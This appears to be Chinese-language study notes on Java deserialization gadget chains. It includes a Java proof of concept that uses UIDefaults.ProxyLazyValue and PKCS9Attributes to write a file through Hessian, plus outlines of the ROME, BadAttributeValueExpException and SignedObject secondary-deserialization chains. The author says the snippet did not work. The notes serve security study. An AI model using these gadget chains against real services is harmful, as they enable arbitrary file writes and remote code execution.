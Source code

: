 

换了一条链子PKCS9Attributes#toString一样的

```java
public static void main(String[] args) throws Exception {
        String a="hahah";
        byte[] bytes = a.getBytes(); //文件的数据
        String filename="/tmp/success";//文件路径

        UIDefaults uiDefaults = new UIDefaults();
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils","writeBytesToFilename", new Object[]{filename,bytes});
//        proxyLazyValue.createValue(uiDefaults);  //createValue这个方法会调用任意public类的public static修饰的方法
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID,proxyLazyValue);//EMAIL_ADDRESS_OID放在这里，应为后面是在存有这个值的数组中匹配

        PKCS9Attributes pkcs9Attributes = createWithoutConstructor(PKCS9Attributes.class);
        Class<?> aClass = Class.forName("sun.security.pkcs.PKCS9Attributes");
        Field attributes = aClass.getDeclaredField("attributes");
        attributes.setAccessible(true);
        attributes.set(pkcs9Attributes,uiDefaults);
  			pkcs9Attributes.toString();
}
```

两个链子有同一问题，都没继承serlize，设置序列化的时候不需要Serializable这个接口

```java
output.getSerializerFactory().setAllowNonSerializable(true);
```

但是我还是没成功



### ROME

hashmap的readobject入口->hashcode->Tostringbean#hashcode->toString(任意get调用)->getOutputProperties->newTransformer->getTransletInstance->newInstance

调用tostring另一种方法就是

BadAttributeValueExpException这个类的readobject中含有tostring方法    cc5



**这里说一下**

在dubbo里面，特定的readobject导致无法使用；

![image-20221014100424910](image/image-20221014100424910.png)



### 二次反序列化

SignedObject读取了一个readObject的字节码，然后在SignedObject的有个getter里面将读取的字节码转换一个ObjectInputStream然后调用这个流的readObejct  (hessian)
